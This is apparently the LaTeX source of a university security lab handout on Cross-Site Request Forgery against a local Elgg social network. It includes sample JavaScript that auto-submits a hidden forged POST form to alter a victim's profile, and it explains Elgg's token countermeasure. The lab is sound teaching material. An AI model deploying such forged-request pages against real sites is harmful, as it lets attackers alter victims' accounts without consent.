%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website. }

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend too much on our SEED VM. You can do this lab
using other VMs or physical machines. }







\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\lhead{\bfseries SEED Labs -- CSRF Lab}

\begin{document}

\begin{center}
{\LARGE Cross-Site Request Forgery (CSRF) Attack Lab}
\vspace{0.1in}\\
{\Large (Web Application: {\tt Elgg})}
\end{center}

\seedlabcopyright{2006 - 2016}



% *******************************************
% SECTION
% ******************************************* 
\section{Overview}


The objective of this lab is to help students understand the Cross-Site Request
Forgery (CSRF) attack. A CSRF attack involves a victim user, a
trusted site, and a malicious site. The victim user holds an active session
with a trusted site while visiting a malicious site. The
malicious site injects an HTTP request for the trusted site into the victim
user session, causing damages.

In this lab, students  will be attacking a social networking web
application using the CSRF attack. The open-source social networking application is called 
\texttt{Elgg}, which has already been installed in our VM.
\texttt{Elgg} has countermeasures against CSRF, but we have turned them off for the
purpose of this lab.  This lab covers the following topics:

\begin{itemize}[noitemsep]
 \item Cross-Site Request Forgery attack
 \item CSRF countermeasures: Secret token and Same-site cookie
 \item HTTP GET and POST requests
 \item JavaScript and Ajax
\end{itemize}


\paragraph{Readings.}
Detailed coverage of the CSRF attack can be found in the following:

\begin{itemize}
\item Chapter 10 of the SEED Book, \seedbook
\end{itemize}


\paragraph{Lab environment.} \seedenvironment



% *******************************************
% SECTION
% ******************************************* 
\section{Lab Environment}


This lab can only be conducted in our Ubuntu 16.04 VM, because of the configurations that we
have performed to support this lab. We summarize these configurations in this
section.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\paragraph{The {\tt Elgg} Web Application.}
We use an open-source web application called {\tt Elgg} in this lab.
{\tt Elgg} is a web-based social-networking application. 
It is already set up in the 
pre-built \ubuntu VM image.  
We have also created several user accounts on the {\tt Elgg} server and the credentials are given below.

\vspace{0.1in}
\begin{center}
\begin{tabular}{|l|l|l|}
\hline
User 	& UserName 	& Password\\
\hline
Admin 	& admin 	& seedelgg \\
Alice 	& alice 	& seedalice \\
Boby 	& boby 		& seedboby \\
Charlie & charlie 	& seedcharlie \\
Samy 	& samy 		& seedsamy \\
\hline
\end{tabular}
\end{center}
\vspace{0.1in}





%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\paragraph{DNS Configuration.}
This lab involves two websites, the victim website and the attacker's website. 
Both websites are set up on our VM. Their URLs and folders are 
described in the following: 


\begin{lstlisting}
 Attacker's website
    URL: http://www.csrflabattacker.com
    Folder: /var/www/CSRF/Attacker/ 
  
 Victim website (Elgg)
    URL: http://www.csrflabelgg.com 
    Folder: /var/www/CSRF/Elgg/ 
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newcommand{\urlorurls}{URLs }
\newcommand{\urlisorurlsare}{URLs are }
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

The above \urlisorurlsare is only accessible from inside of the virtual machine, because we
have modified the \texttt{/etc/hosts} file to map the domain
name of each URL to the virtual machine's local IP
address ({\tt 127.0.0.1}).
You may map any domain name to a particular IP address using
\texttt{/etc/hosts}. For example, you can map
\url{http://www.example.com} to the local IP address by appending the
following entry to \texttt{/etc/hosts}:

\begin{lstlisting}[backgroundcolor=]
   127.0.0.1     www.example.com
\end{lstlisting}

If your web server and browser are running on two different machines, you need
to modify \texttt{/etc/hosts} on the browser's machine accordingly to map these
domain names to the web server's IP address, not to {\tt 127.0.0.1}.



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\paragraph{Apache Configuration.}
In our pre-built VM image, we used Apache server to host all the web
sites used in the lab. The name-based virtual hosting feature in
Apache could be used to host several web sites (or URLs) on the same
machine. A configuration file named \texttt{000-default.conf} in the directory
\url{"/etc/apache2/sites-available"} contains the necessary directives for the
configuration:

Inside the configuration file, each web site has a {\tt VirtualHost} block
that specifies the URL for the web site and directory in the file system
that contains the sources for the web site. The following examples show how
to configure a website with URL \url{http://www.example1.com} and another
website with URL \url{http://www.example2.com}:

\begin{lstlisting}
<VirtualHost *>
    ServerName http://www.example1.com
    DocumentRoot /var/www/Example_1/
</VirtualHost>

<VirtualHost *>
    ServerName http://www.example2.com
    DocumentRoot /var/www/Example_2/
</VirtualHost>
\end{lstlisting}


You may modify the web application by accessing the source in the
mentioned directories. For example, with the above configuration,
the web application \url{http://www.example1.com} can be changed by modifying
the sources in the \url{/var/www/Example_1/} directory. After a change is
made to the configuration, the Apache server needs to be restarted. See the
following command:

\begin{lstlisting}[backgroundcolor=]
   $ sudo service apache2 start
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%



% *******************************************
% SECTION
% ******************************************* 
\section{Lab Tasks}

For the lab tasks, you will use two web sites that are locally setup in
the virtual machine. The first web site is the vulnerable \texttt{Elgg}
site accessible at \url{www.csrflabelgg.com} inside the virtual machine. The second
web site is the attacker's malicious web site that is used for
attacking {\tt Elgg}. This web site is accessible via
\url{www.csrflabattacker.com} inside the virtual machine. 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 1: Observing HTTP Request.}

In Cross-Site Request Forget attacks, we need to forge HTTP requests. 
Therefore, we need to know what a legitimate HTTP request looks like and 
what parameters it uses, etc. 
We can use a Firefox add-on called \texttt{"HTTP Header Live"} for this
purpose.  
The goal of this task is to get familiar with this tool. 
Instructions on how to use this tool is given in the Guideline
section~(\S~\ref{web:sec:httpheaderlive}).
Please use this tool to capture an HTTP GET request and an HTTP POST
request in \texttt{Elgg}. In your report, please identify the parameters
used in this these requests, if any. 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 2: CSRF Attack using GET Request}

In this task, we need two people in the {\tt Elgg} social network: Alice
and Boby. Boby wants to become a friend to Alice, but Alice refuses to add 
him to her {\tt Elgg} friend list. Boby decides to use the CSRF attack to
achieve his goal. He sends Alice an URL (via an email or a posting in {\tt
Elgg}); Alice, curious about it, clicks on the URL, which leads her to Boby's web site:    
{\tt www.csrflabattacker.com}. Pretend that you are Boby, describe how you
can construct the content of the web page, so as soon as Alice visits the
web page, Boby is added to the friend list of Alice (assuming Alice has an
active session with {\tt Elgg}).


To add a friend to the victim, we need to identify what the legitimate 
Add-Friend HTTP request (a GET request) looks like. We can use 
the \texttt{"HTTP Header Live"} Tool to do the investigation. 
In this task, you are not allowed to
write JavaScript code to launch the CSRF attack. Your job is to make the
attack successful as soon as Alice visits the web page, without even making
any click on the page (hint: you can use the {\tt img} tag, which
automatically triggers an HTTP GET request).
 

\texttt{Elgg} has implemented a countermeasure to defend against 
CSRF attacks. In Add-Friend HTTP requests, you may notice that each 
request includes two wired-looking parameters, \texttt{\_\_elgg\_ts} and 
\texttt{\_\_elgg\_token}. These parameters are used by the countermeasure, so if they do not
contain correct values, the request will not be accepted by \texttt{Elgg}.   
We have disabled the countermeasure for this lab, so there is no need to include these two 
parameters in the forged requests. 


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 3: CSRF Attack using POST Request}

After adding himself to Alice's friend list, Boby wants to do something more. He 
wants Alice to say ``Boby is my Hero'' in her profile, so everybody knows 
about that. Alice does not like Boby, let alone putting that statement 
in her profile. Boby plans to use a CSRF attack to achieve that goal. 
That is the purpose of this task. 


One way to do the attack is to post a message to Alice's {\tt Elgg} account, hoping that 
Alice will click the URL inside the message. This URL will lead Alice to your (i.e., Boby's)
malicious web site \url{www.csrflabattacker.com}, where you can launch the
CSRF attack. 

The objective of your attack is to modify the victim's profile. 
In particular, the attacker needs to forge a request 
to modify the profile information of the victim user of {\tt Elgg}. 
Allowing users to modify their profiles is a feature of 
{\tt Elgg}. If  users want to modify their profiles,
they go to the profile page of {\tt Elgg}, fill out 
a form, and then submit the form---sending a POST request---to 
the server-side script {\tt /profile/edit.php}, which 
processes the request and does the profile modification.


The server-side script {\tt edit.php} accepts both GET and POST requests,
so you can use the same trick as that in Task 1 to achieve the attack.
However, in this task, you are required to use the POST request. 
Namely, attackers (you) need to forge an HTTP POST request from the victim's
browser, when the victim is visiting their malicious site. 
Attackers need to know the structure of such a request.
You can observe the
structure of the request, i.e.,  the parameters of the request, by making
some modifications to the profile and monitoring the request using
the \texttt{"HTTP Header Live"} tool. 
You may see something similar to
the following. Unlike HTTP {\tt GET} requests, which append 
parameters to the URL strings, the parameters of HTTP {\tt POST} requests are 
included in the HTTP message body (see the contents between the two 
\ding{80} symbols): 


\begin{lstlisting}
http://www.csrflabelgg.com/action/profile/edit

POST /action/profile/edit HTTP/1.1
Host: www.csrflabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) ...
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.csrflabelgg.com/profile/elgguser1/edit
Cookie: Elgg=p0dci8baqrl4i2ipv2mio3po05
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 642
__elgg_token=fc98784a9fbd02b68682bbb0e75b428b&__elgg_ts=1403464813  (*@\ding{80}@*) 
&name=elgguser1&description=%3Cp%3Iamelgguser1%3C%2Fp%3E
&accesslevel%5Bdescription%5D=2&briefdescription= Iamelgguser1
&accesslevel%5Bbriefdescription%5D=2&location=US
......                                                              (*@\ding{80}@*)
\end{lstlisting}


After understanding the structure of the request, you need to 
be able to generate the request from your attacking web page
using JavaScript code. 
To help you write such a JavaScript program,  we provide a 
sample code in the following You can use this sample code to construct your malicious web site
for the CSRF attacks. This is only a sample code, and you need to modify it to 
make it work for your attack.


\begin{lstlisting}
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers. 
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='****'>";
    fields += "<input type='hidden' name='briefdescription' value='****'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' 
                                    value='2'>";                         (*@\ding{192}@*)
    fields += "<input type='hidden' name='guid' value='****'>";

    // Create a <form> element.
    var p = document.createElement("form");
	 
    // Construct the form
    p.action = "http://www.example.com";
    p.innerHTML = fields;
    p.method = "post";
	 
    // Append the form to the current page.
    document.body.appendChild(p);
	 
    // Submit the form
    p.submit();
}

	
// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
\end{lstlisting}


In Line~\ding{192}, the value \texttt{2} sets the access level of a field to public. 
This is needed, otherwise, the access level will be set by default to private, so others cannot
see this field. It should be noted that when copy-and-pasting the above code
from a PDF file, the  single quote character in the program may become 
something else (but still looks like a single quote). That will cause 
syntax errors. Replace all the single quote symbols with the one typed from 
your keyboard will fix those errors. 


\paragraph{Questions.}
In addition to describing your attack in full details, you also need to
answer the following questions in your report:

\begin{itemize}
   \item \textbf{Question 1}: The forged HTTP request needs Alice's user
   id (guid) to work properly. If Boby targets Alice specifically, before
   the attack, he can find ways to get Alice's user id. Boby does not know 
   Alice's {\tt Elgg} password, so he cannot log into Alice's account to get
   the information. Please describe how Boby can solve this problem.

   
   \item \textbf{Question 2:} If Boby would like to launch the attack to
   anybody who visits his malicious web page. In this case, he does not
   know who is visiting the web page beforehand. Can he still launch the CSRF attack
   to modify the victim's {\tt Elgg} profile? Please explain.
\end{itemize}




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 4: Implementing a countermeasure for {\tt Elgg}} 


{\tt Elgg} does have a built-in countermeasures to 
defend against the CSRF attack. 
We have commented out the countermeasures to make the attack work. 
CSRF is not difficult to defend against, and there are several common approaches:

\begin{itemize}
   \item {\em Secret-token approach}: Web applications can embed a secret token
   in their pages, and all requests coming from these pages will carry this 
   token. Because cross-site requests cannot obtain this token, their 
   forged requests will be easily identified by the server.

   \item {\em Referrer header approach}: Web applications can also verify the origin page 
   of the request using the \emph{referrer} header. However, due to privacy
   concerns, this header information may have already been filtered out 
   at the client side.
\end{itemize}


The web application {\tt Elgg} uses secret-token approach. 
It embeds two parameters {\tt\_\_elgg\_ts} and {\tt\_\_elgg\_token} in the request as a countermeasure to CSRF attack. 
The two parameters are added to the HTTP message body for the POST requests and to the URL string for the HTTP GET requests.


\paragraph{{\tt Elgg} secret-token and timestamp in the body of the request.}
{\tt Elgg} adds security token and timestamp to all the user actions to be performed.
The following HTML code is present in all the forms where user action is required. 
This code adds two new hidden parameters {\tt\_\_elgg\_ts} and {\tt\_\_elgg\_token} to the POST request:

\begin{lstlisting}
<input type = "hidden" name = "__elgg_ts" value = "" />
<input type = "hidden" name = "__elgg_token" value = "" />
\end{lstlisting}

The {\tt\_\_elgg\_ts} and {\tt\_\_elgg\_token} are generated by the 
\url{views/default/input/securitytoken.php} 
module and added to the web page. 
The code snippet below shows how it is dynamically added to the web page.
{\footnotesize
\begin{lstlisting}
$ts = time();
$token = generate_action_token($ts);

echo elgg_view('input/hidden', array('name' => '__elgg_token', 'value' => $token));
echo elgg_view('input/hidden', array('name' => '__elgg_ts', 'value' => $ts));
\end{lstlisting}
}

{\tt Elgg} also adds the security tokens and timestamp to the JavaScript which can be accessed by 

\begin{lstlisting}
  elgg.security.token.__elgg_ts;
  elgg.security.token.__elgg_token;
\end{lstlisting}

{\tt Elgg} security token is a hash value (md5 message digest) of the site secret value (retrieved from database),
timestamp, user sessionID and random generated session string. There by defending against the CSRF attack.  
The code below shows the secret token generation in {\tt Elgg}.

\begin{lstlisting}
function generate_action_token($timestamp) 
{
  $site_secret = get_site_secret();
  $session_id = session_id();
  // Session token
  $st = $_SESSION['__elgg_session'];

  if (($site_secret) && ($session_id)) 
  {
     return md5($site_secret . $timestamp . $session_id . $st);
  }

  return FALSE;
}
\end{lstlisting}


The PHP function {\tt session\_id()} is used to get or set the session id
for the current session.  The below code snippet shows random generated
string for a given session {\tt\_\_elgg\_session} apart from public user
Session ID.

\begin{lstlisting}
  ...... 
  // Generate a simple token (private from potentially public session id)
  if (!isset($_SESSION['__elgg_session'])) {
  $_SESSION['__elgg_session'] = ElggCrypto::getRandomString(32,ElggCrypto::CHARS_HEX);
	........
\end{lstlisting}

\paragraph{{\tt Elgg} secret-token validation.}
The elgg web application validates the generated token and timestamp to
defend against the CSRF attack.  Every user action calls {\tt
validate\_action\_token} function and this function validates the tokens.
If tokens are not present or invalid, the action will be denied and the
user will be redirected.
 
 
The below code snippet shows the function {\tt validate\_action\_token}.

\begin{lstlisting}
function validate_action_token($visibleerrors = TRUE, $token = NULL, $ts = NULL) 
{
  if (!$token) {	$token = get_input('__elgg_token');	}
  if (!$ts) {$ts = get_input('__elgg_ts');	}
  $session_id = session_id();
  if (($token) && ($ts) && ($session_id)) {
    // generate token, check with input and forward if invalid
    $required_token = generate_action_token($ts);

    // Validate token
    if ($token == $required_token) {
			
      if (_elgg_validate_token_timestamp($ts)) {
        // We have already got this far, so unless anything
        // else says something to the contrary we assume we're ok
        $returnval = true;
        ......
      }
      else {     
        ......
        register_error(elgg_echo('actiongatekeeper:tokeninvalid'));
        ......
      }
      ......
}
\end{lstlisting}



\paragraph{Turn on countermeasure.}
To turn on the countermeasure, please go to the directory
\url{/var/www/CSRF/Elgg/vendor/elgg/elgg/engine/classes/Elgg} and 
find the function {\tt gatekeeper} in the {\tt ActionsService.php} file. 
In function {\tt gatekeeper()} please comment out the 
{\tt "return true;"} statement as specified in the code comments.

\begin{lstlisting}
public function gatekeeper($action) {
   //SEED:Modified to enable CSRF. 
   //Comment the below return true statement to enable countermeasure
   return true;
   ......
}
\end{lstlisting}


\paragraph{Task:}
After turning on the countermeasure above, try the CSRF attack again, 
and describe your observation. Please point out the secret tokens in the 
HTTP request captured using Firefox's HTTP inspection tool.
%{\tt LiveHTTPHeaders}. 
Please explain why
the attacker cannot send these secret tokens in the CSRF attack; what
prevents them from finding out the secret tokens from the web page?   



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\section{Guidelines}


\newcommand{\devtoolFigs}{../Web_Common/Figs}


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Using the \texttt{"HTTP Header Live"} add-on to Inspect HTTP Headers}
\label{web:sec:httpheaderlive}


The version of Firefox (version 60) in our Ubuntu 16.04 VM does not support the
\texttt{LiveHTTPHeader} add-on, which was used in our Ubuntu 12.04 VM. 
A new add-on called \texttt{"HTTP Header Live"} is used in its place. 
The instruction on how to enable and use this add-on tool
is depicted in Figure~\ref{web:fig:httpheader}. Just click the icon marked
by \ding{192}; a sidebar will show up on the left. Make sure that
\texttt{HTTP Header Live} is selected at position \ding{193}. Then click
any link inside a web page, all the triggered HTTP requests will be
captured and displayed inside the sidebar area marked by \ding{194}.
If you click on any HTTP request, a pop-up window will show up to display
the selected HTTP request. Unfortunately, there is a bug in this add-on
tool (it is still under development); nothing will show up inside the
pop-up window unless you change its size~(It seems that re-drawing
is not automatically triggered when the window pops up, but changing its
size will trigger the re-drawing).


\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.85\textwidth]{\devtoolFigs/HTTPHeaderLive.pdf}
\end{center}
\caption{Enable the HTTP Header Live Add-on}
\label{web:fig:httpheader}
\end{figure}




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Using the Web Developer Tool to Inspect HTTP Headers}
\label{web:sec:web_dev_tools}


There is
another tool provided by Firefox that can be quite useful 
in inspecting HTTP headers. 
The tool is the Web Developer Network Tool.  In this
section, we cover some of the important features of the tool. 
The Web Developer Network Tool can be enabled via the following navigation: 


\begin{lstlisting}
Click Firefox's top right menu --> Web Developer --> Network
 or 
Click the "Tools" menu --> Web Developer --> Network 
\end{lstlisting}


We use the user login page in Elgg as an example. 
Figure~\ref{fig:webdevtools_01_request} shows the Network Tool showing the HTTP POST request
that was used for login.

\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.8\textwidth]{\devtoolFigs/webdevtools_01_request.png}
\end{center}
\caption{HTTP Request in Web Developer Network Tool}
\label{fig:webdevtools_01_request}
\end{figure}

To further see the details of the request, we can click on a particular HTTP request and the
tool will show the information in two panes (see Figure~\ref{fig:webdevtools_02_two_panes}). 

\begin{figure}[htb]
\begin{center}
